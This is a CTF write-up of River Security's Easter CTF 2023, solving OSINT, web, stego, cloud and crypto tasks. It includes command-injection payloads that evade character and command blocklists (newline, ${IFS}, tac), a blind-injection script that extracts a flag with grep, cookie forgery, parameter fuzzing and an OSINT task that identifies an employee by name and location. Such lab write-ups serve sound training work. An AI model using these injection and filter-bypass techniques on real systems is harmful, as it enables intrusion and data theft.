# River Security Easter CTF 2023
This is a writeup from [River Security](https://riversecurity.eu/)'s Easter CTF 2023.



The CTF featured 17 tasks in 7 categories.

# OSINT


## OSINT / The course
> Last autumn (2022) one of our employees attended a course. Can you figure out who, and where?
> The format of the flag (all lower case) is: <firstname>:<geohash> The geohash will be 7 characters long.
> Example of flag format: mary:uqnx9ef

Only one of their employees is on Discord with full name, so that's a natural place to start. He posted a SANS Certificate from [Munich October 17-22 2022](https://www.linkedin.com/posts/simen-bai_the-past-week-was-a-week-filled-with-excitement-activity-6990305063357300736-OvIK) and that fits the bill. It was held at the [Munich Marriott Hotel](https://www.tsnn.com/events/sans-munich-october-2022). [Geohash](https://www.movable-type.co.uk/scripts/geohash.html) of the location gets me `u284pcc`.

> Flag: `simen:u284pcc`

# Misc


## Misc / The IP
> Can you figure out how to bypass the filter and get the flag?



This webpage wants 127.0.0.1, but won't accept anything but numbers. The dotted decimal is just a human-readable version. IP-addresses can have multiple formats, so I try [converting the IP](https://www.silisoftware.com/tools/ipconverter.php) to dword: http://rsxc.no:9001/?ip=2130706433

> Flag: `RSXC{IP_ADDRESSES_CAN_HAVE_MULTIPLE_FORMATS}`

# Stego


## Stego / The Image
[SVG-file with censored flag](./stego/image.svg). The SVG contained two blobs of base64. I opened it in a text-editor and extracted the largest base64 and decoded it to get the flag without the censoring block.

> Flag: `RSXC{FLAG_REDACTED_OK}`

## Stego / The PDF
[PDF-file](./stego/flag.pdf) censored the same way as the SVG. Just used [an online extractor](https://www.ilovepdf.com/pdf_to_jpg) and got a zip-file with [two images](./stego/extracted-pdf/).

> Flag: `RSXC{PDF_REDACTION_NOT_WORKING}`

# Web


## Web / Randomness
Webpage greeting me with:
> Become admin to win this game. You are user: #97962

The server sets a PHP Session cookie (with a hex-string). Deleting it gave me a new number, so let's decode it and see if it has any info:

```
Cookie                              unhexlify
4d7a4d7a4d544d3d3444386a386f4165    MzMzMTM=4D8j8oAe
4d6a49324e7a593d7137784b30595352    MjI2NzY=q7xK0YSR
4f546b314d6a453d655a48517636436d    OTk1MjE=eZHQv6Cm
4d5463324e54673d7159366661364b54    MTc2NTg=qY6fa6KT
```
The first 8 characters of the unhexed value is the base64-representation of the number in the webpage. The rest appears to be base64-encoded garbage (randomness?).
Attempting to spell "admin" didn't work (only got to "admi" before I ran out of bits). Setting it to `0` or `1` didn't work either. Spent a while wondering if the last part of the cookie was some sort of checksum, but I finally realized it wanted a 5 digit number, so zero-padding was the way to go:

```python
def out(s):
    return hexlify(b64encode(s.encode("utf-8"))).decode("utf-8")

print(out("00001") + out("11111"))
```

I used BurpSuite Repeater to set the cookie to the output from my script:



> Flag: `RSXC{SEQUENCING_FINDS_RANDOMNESS_FLAWS}`

## Web / View Access
> Can you figure out how to get some access?

This stumped me for a while. index.php redirects to `index.php?a=viewAccess` that told me I had no access. There were no headers, cookies or anything obvious to play with. Tried lots of enumeration, inserting headers, trying LFI and command injection on the parameter etc. Nothing. Fuzzing the verb was the solution, but I had to include the "Access"-part so none of my wordlists worked out of the box:

```
kali:~$ wfuzz -c -w raft-large-words-lowercase.txt  --hc 404,403,302 -t 100  http://rsxc.no:9002/index.php?a=FUZZAccess
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://rsxc.no:9002/index.php?a=FUZZAccess
Total requests: 107982

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000164:   200        50 L     148 W      1375 Ch     "view"
000008806:   200        57 L     144 W      1229 Ch     "grant"
```

Visited http://rsxc.no:9002/index.php?a=grantAccess and got the flag.

> Flag: `RSXC{FUZZING_VERBS_FOR_SUCCESS}`


# Hacker House


> Once in a remote Norwegian town, a group of skilled security professionals had convened in a fancy cabin to collaborate and achieve their objectives. On their network, they found a number of challenges that required their collective expertise. Do you have what it takes to tackle these challenges too?

Hacker House #1-6 are a set of command injection tasks with increasing difficulity.

## Hacker House / 1 - Easy as Pie



This looks vulnerable to command-injection:  `; ls -l` showed flag.txt:



So the next step was to read the flag: `; cat flag.txt`

> Flag: `RSXC{THE_FIRST_ONE_IS_SIMPLE_BUT_THEY_WILL_BECOME_HARDER}`

The first task reveals that the flag.txt isn't properly protected on any of the HH-challenges. You can just go to the `/flag.txt` URL directly. I retract my earlier statement - a flag is not just a flag. I need to find the actual solution. (The misconfiguration was reported and quickly fixed.)

I usually started each of these tasks with BurpSuite Intruder where I send a one-character payload and filter for the string "Illegal character detected" to see what is blocked this time:



(the screenshot is from a later task)


## Hacker House / 2 - The Security Guard

Semicolon is blocked now. Using OR: `||cat flag.txt`

> Flag: `RSXC{SOME_CHARACTERS_ARE_BLOCKED_SOME_ARE_NOT}`

## Hacker House / 3 - No Space Left
The `||`-trick doesn't work anymore, and space is gone too. Newline (`%0A` == `\n`) worked, and the internal field separator in bash (`${IFS}`) substitutes as space: `%0Acat${IFS}flag.txt`

> Flag: `RSXC{NO_MORE_SPACES_WERE_ALLOWED_BUT_NEWLINES_ARE_OK}`

## Hacker House / 4 - The Boss is Watching
They have blocked some common commands, so `cat` doesn't work. But `tac` (same as `cat`, but displays the file in reverse) is a pretty obscure command, so I try that: `%0Atac${IFS}flag.txt`

> Flag: `RSXC{GREAT_JOB_YOU_FIGURED_OUT_HOW_TO_CIRCUMVENT_THE_BLOCKED_COMMANDS}`

## Hacker House / 5 - Raising the Bar
I couldn't use `${IFS}` anymore, but enumeration showed that space was allowed again: `%0Atac flag.txt`

> Flag: `RSXC{I_SEE_YOU_BYPASSED_THE_EXTRA_LIMITATIONS_GREAT_WORK!}`

## Hacker House / 6 - Blind Ambition
Now we don't get output, just "Host is down, the results will be sent via e-mail" or "Host is up..". So this reflects the exit-code of the command. The grep command is available, so it's [scripting time](./hackerhouse6-blind.py):

```python
import requests
abc = "ABCDEFGHIJKLMNOPQRSTUVWXYZ_"

def check(s):
    payload = "\ngrep -i " +s + " flag.txt"
    r = requests.post("http://rsxc.no:9010", data={"ip":payload})
    return r.text.find("Host is up") > 0

flag = "RSXC."
while True:
    for ch in abc:
        tempflag = flag + ch
        if check(tempflag):
            flag = tempflag
            print(flag)
            break
```

The script loops through the alphabet starting with "RSXC." (`{` was banned, so I use `.` - the regex-equivalent of `?`) and add new characters until I have the entire flag:

> Flag: `RSXC{I_SEE_YOU_MANAGED_TO_SEND_THE_RESPONSE_OUT_OF_BAND}`


# Cloud


## Cloud / Azure Function
> We have found a function app called function-lab-rivsec which has a HTTP trigger named RivSecFunction1. Can you find the application, interact with the function and authenticate to it? Apparently it expects a special input and value to authenticate.
> My coworker said he stored it on the CTF platform, but I can't seem to see it. Are you able to?

Embedded in the HTML for this challenge: `<!--the code is kGwB9axaK4N7sTdBzO1SfPzNjsp17KCR25yQ4dTYBePoAzFuii5p_w== -->`

According to the [Microsoft documentation](https://learn.microsoft.com/en-us/azure/azure-functions/functions-bindings-http-webhook-trigger?tabs=python-v2%2Cin-process%2Cfunctionsv2&pivots=programming-language-python#customize-the-http-endpoint) the service should be available on https://function-lab-rivsec.azurewebsites.net/api/RivSecFunction1

That URL gives a 401. I tried various authorization headers, but that didn't work. Maybe a GET parameter? Using the verb used in the HTML comment was a logical place to start, and `?code=<base64>` worked:
```
: kali:~; curl https://function-lab-rivsec.azurewebsites.net/api/RivSecFunction1?code=kGwB9axaK4N7sTdBzO1SfPzNjsp17KCR25yQ4dTYBePoAzFuii5p_w==

Well done, you've found the authentication code! This allowed you to authenticate to the function 
and you could now explore its functionality. Todays challenge ends here, 
with a 🚩: RSXC{AUTHENTICATED_AZURE_FUNCTION}. We at River Security (rivsec) are proud of you!:
```

> Flag: `RSXC{AUTHENTICATED_AZURE_FUNCTION}`

This unlocked the hidden challenge:

## Cloud / Azure Function Enumeration
> In the previous challenge you found an Azure Function. This function holds functionality which you must discover. Azure Functions with a HTTP trigger responds to GET and POST parameters, can you find the needed parameter?

Tried fuzzing GET parameters with raft-large-words-lowercase but I couldn't get much. Trying POST:
```
$ wfuzz -t100 -w raft-large-words-lowercase.txt --hh 264 -u https://function-lab-rivsec.azurewebsites.net/api/RivSecFunction1?code=kGwB9axaK4N7sTdBzO1SfPzNjsp17KCR25yQ4dTYBePoAzFuii5p_w== -d "FUZZ=FUZZ"
```

Still nothing. Trying variations on the url:
* /api/FUZZ
* /api/RivSecFUZZ (+1)
* /api/RivSecFunction1/FUZZ

Trying JSON-formated payloads - still nothing.

Tried multiple wordlists from [SecLists](https://github.com/danielmiessler/SecLists).

Since there was no obvious hints to the parameter name, I started to enumerate with permutations of the company name. The word `rivsec` is used both in the FunctionApp-name and the function name so i started there. I choose a dictionary that included words starting with an uppercase letter, since the ViewAccess-task had camelCase verb.

```
: kali:~/SecLists/Discovery/Web-Content; wfuzz -t100 -w directory-list-2.3-big.txt --hh 264 --hc 502,404 -u https://function-lab-rivsec.azurewebsites.net/api/RivSecFunction1?code=kGwB9axaK4N7sTdBzO1SfPzNjsp17KCR25yQ4dTYBePoAzFuii5p_w==\&rivsecFUZZ=FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://function-lab-rivsec.azurewebsites.net/api/RivSecFunction1?code=kGwB9axaK4N7sTdBzO1SfPzNjsp17KCR25yQ4dTYBePoAzFuii5p_w==&rivsecFUZZ=FUZZ
Total requests: 1273833

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000006207:   200        0 L      32 W       198 Ch      "Admin - Admin"
```
Bingo! That took a couple of million attempts. I wonder what their cloud bill is like after this CTF :)

```
:kali:~; curl "https://function-lab-rivsec.azurewebsites.net/api/RivSecFunction1?code=kGwB9axaK4N7sTdBzO1SfPzNjsp17KCR25yQ4dTYBePoAzFuii5p_w==&rivsecAdmin=Admin"
Oh, wow 🔥 You've found a secret input parameter. This could provide you access to more of the functions capabilities. For now, the challenge ends here, and here is your 🎌: RSXC{FUNCTION_ENUMERATION}:
```

> Flag: `RSXC{FUNCTION_ENUMERATION}`


# Crypto


## Crypto / Cash is king
Webpage with this text:
> Can you trick the system into giving you some more money?
> River Security cash machine. Get >= 500 cash for Easter spending. Cash:100 User:Easter Bunny

There is a GET string mentioned in the source that can be used to send new values into the page. Tried some mild fuzzing and got PHP errors about mcrypt_decrypt.
Tried using BurpSuite intruder (bit flipper-attack) and found multiple valid inputs that returned the string `RSXC{` (68f1c3be4f900c820c92a45de940b92e0750458a1382b07818df8a6c2aa0a551c18d8909d305cf903510864abaf3c9ff was one of them). 
I'm not sure what the crypto-thing was used for, but a flag is a flag :)

> Flag: `RSXC{CRYPTO_FAIL_MAKES_EASTER_WIN}`

## Crypto / eXcellence Or Resillience
> We found this string when searching for some information.
> f8f3c9ddefd1f5c8feeef1c7dec8f8edcbefc3ccfdc1f6fdf5d3f0f8f1c7cbcef5c1fafddcc5e3c1f6fdf5ccf4fffffdce81b0bfb5e5
> Can you help us understand it?

The title hints that this is an XOR challenge. XOR (`⊕`) works "both ways": `plain ⊕ key = cipher`, and `cipher ⊕ key = plain`. But it also means that `cipher ⊕ plain = key`. Since we can assume that the plaintext starts with the flag format, we can construct parts of the key by XORing the cipher with `RSXC{`. This gives me (`aa a0 91 9e 94`), but it didn't reveal much plaintext in [CyberChef](https://gchq.github.io/CyberChef/):



This means that the key is longer than my five bytes. I try adding another (random) character to the key just to see if I can start seeing plaintext repeated (which means I found the keylength). Adding another `aa` to the key seemed have done just that:



I can guess more parts of the flag here, and the plaintext seems to start with `RSXC{I_hope_this`. XORing the ciphertext with that in another browser tab gave me `aa a0 91 9e 94 98` as the key before it started repeating itself:



So now we have the entire key:



> Flag: `RSXC{I_hope_this_will_be_safe_and_never_be_leaked!!!!}`

# Crypto / Partial
> We intercepted this [encrypted flag](./crypto-partial/flag.encrypted), and we previously gathered this [rsa key](./crypto-partial/id_rsa) but something seems off. Can you help us decrypt it?

The key seems a bit broken:



.. and it's an openssh key, which is [formated differently](https://coolaj86.com/articles/the-openssh-private-key-format/) from a normal RSA key. But since a lot of data has been censored/nulled (the base64 `//==` is `0xff`), none of the usual tools want to open this. But I found [openssh_key_parser](https://github.com/scottcwang/openssh_key_parser) that seemed able to look past the blank bits and actually extract something useful:

```python
>>> import openssh_key.private_key_list as pkl
>>> key = pkl.PrivateKeyList.from_string(open('id_rsa').read())[0]
>>> key.private.params
{
    'n': -1,
    'e': -1,
    'd': 3436145230856533452309797868646793336117758577784760984545060170305750428975063990533832051218746273204950323084128880607426027276344775346477666446399212632899175232068670572703715827997680613597476349699284204040559936731006471228800306187467714926499384152765587800465234125185938570733949665630400130880127083575560172505981891554839930095397689972191207229609096303183856046702263418926279952871253515155265288520605561036576246861853967636468810599650732121956901592957042464310534898835179076655010251749610371958137342333280828904824259397065806007083524506356467163093132622264605828769341863307490316681465768166184738453660759375049675060377537919756750436266843132121614033396551485007829550346430950739801546016675502589712973940164644161920606648762862667916454992539559146882758867624788098510743326202599157662352882959491475941560276290940522623017204484016880144258341562734965305668580636639256796138206857868769614490440480709828107615263898267699723887092930349010726814804183322812126502451690599117014277281701730455192708424162914928810251329433443701108841859186834320277063352419371672256505074277477839390696655903901128890017158441842542742808965610437372267562259980170448001660510912399096888196793793,
    'iqmp': 8136680559511488592439728666193940447920612109849349869977129929709193870228755776224629515916369041148125827589776722628740065957186727475574895609175581824663824345304408040109999412929201474630584714246263916093142683402832835302260119215940895566498164036873767844060643240781924739908402886032976049508006449176913746409136585824717046585085448764087546814499660551473637153472872990938873919822611525056171586640238937254171484999968260446587136583641682135300665332706276848365821715405570479228331985042191234729110131001308959897741656151557240260901816325374391134293720704692179842684138434246939871297730,
    'p': 30274808497202971656141907056868362838189171459032932410536106864447250223842158268704150613233540611169251556847204310433803362666516559833088731294064109316152948669606751548704290530392762846915328909869080904888002139061884802768673620738371701462630449485092768861676472947218456343931664748674695790409112227702319595215655220845948937787906336618506422766649635652776090438479740001068751372664565370486548266497253390500915284487358373589460148950520786232090209572645433021398465198502261107647810348165358257511111693141436807713022391135705741516107735687778204782003131768784810134850278320878134979064209,
    'q': 28069248799171537286741832203524935961384677622093752688176094868535581872471347295546917201430297135715941012688367369605542772941143919134115484179637196603176468641742775901979145694820845667069668301484500736369028941903080257493340871574929823331712146068905193311973876858584612010430940360705766716485499695940637150009868456633614893281491156349004997579152176354049016801206738405518027577644278717529463540429042346951058782970175779908177757137823273513871779092686241393576402117069252958310672521105717580946805886797565444625443266095122126632197109528664305242026449049817610515454679515194827566931933
}
```

So we have p, q, and d. Great! According to [this very helpful article](https://bitsdeep.com/posts/attacking-rsa-for-fun-and-ctf-points-part-1/) all I actually need to decrypt is `n` (and that's just `p*q`). The library I used to decrypt also wants `e`, but that's easily computed (and usually 65537 anyway).

Using [this RSA library](https://pypi.org/project/rsa/) to [decrypt](./crypto-partial/solver.py):

```python
import rsa
import openssh_key.private_key_list as pkl
from Crypto.Util.number import inverse

# Load the broken key
partialkey = pkl.PrivateKeyList.from_string(open('id_rsa').read())[0]
(n,e,d,iqmp,p,q) = partialkey.private.params.values()

# Compute new values and load a complete key 
e = inverse(d, (p-1)*(q-1))
priv = rsa.PrivateKey(p*q, e, d, p, q)

ciphertext = open("flag.encrypted", "rb").read()
print(rsa.decrypt(ciphertext, priv).decode("utf-8"))
```

> Flag: `RSXC{You_managed_to_figure_out_how_SSH_keys_work}`


# The end
Thanks for a nice CTF!

Side-note: This was a great way to show how useless ChatGPT can be on unusual questions :)

And I don't end up on the top of the scoreboard that often, so I want to brag:



